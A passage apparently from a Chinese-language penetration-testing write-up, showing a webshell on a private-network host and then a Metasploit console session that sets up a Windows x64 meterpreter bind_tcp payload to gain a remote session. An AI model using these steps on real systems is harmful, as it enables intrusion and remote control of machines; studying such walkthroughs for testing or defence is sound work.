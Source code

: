 ![图片10.0.1.26-Webshell](https://raw.githubusercontent.com/brianwrf/TechArticles/master/pictures/10.0.1.26-Webshell.png)
有了webshell我们便可以上传一个meterpreter payload来获取一个功能强大的meterpreter session了。
```
msf auxiliary(tcp) > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf exploit(handler) > set RHOST 10.0.1.26
RHOST => 10.0.1.26
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     10.0.1.26        no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > run

```